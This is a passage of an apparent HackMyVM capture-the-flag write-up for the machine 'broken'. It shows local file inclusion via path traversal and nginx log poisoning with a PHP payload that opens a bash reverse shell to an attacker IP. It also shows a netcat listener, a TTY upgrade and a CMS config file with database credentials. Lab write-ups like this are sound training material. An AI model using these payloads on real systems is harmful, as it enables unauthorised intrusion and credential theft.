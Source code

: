 The LFI was successful, and I identified a user named `heart`.

Next, I attempted log poisoning to gain a reverse shell. I needed to find the Nginx access log.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/broken]
└─$ curl http://broken/file.php?file=../../../../var/log/nginx/access.log
# ... (nginx access log content) ...
```

The Nginx access log was readable. I injected PHP code into the User-Agent header, which would then be written to the log file.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/broken]
└─$ curl -A "<?php system('/bin/bash -i >& /dev/tcp/192.168.1.5/4444 0>&1'); ?>" http://broken/
```

I set up a `netcat` listener on my Kali machine (`192.168.1.5` on port `4444`).

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/broken]
└─$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.1.73 34552
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, I triggered the injected code by requesting the `access.log` via the LFI vulnerability:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/broken]
└─$ curl http://broken/file.php?file=../../../../var/log/nginx/access.log
```

This resulted in a reverse shell as the `www-data` user. I then upgraded it to a full TTY shell:

```shellscript
www-data@broken:~/html$ python -c "import pty;pty.spawn('/usr/bin/bash')"
www-data@broken:~/html$
```

### 4. Privilege Escalation to `heart`

As `www-data`, I explored the web directories and found `config.php` for the Textpattern CMS:

```shellscript
www-data@broken:~/html/textpattern/textpattern$ cat config.php
<?php
$txpcfg['db'] = 'texte';
$txpcfg['user'] = 'teste';
$txpcfg['pass'] = 'pazzi';
$txpcfg['host'] = 'localhost';
$txpcfg['table_prefix'] = '';
$txpcfg['txpath'] = '/var/www/html/textpattern/textpattern';
$txpcfg['dbcharset'] = 'utf8mb4';
// For more customization options, please consult config-dist.php file.
```
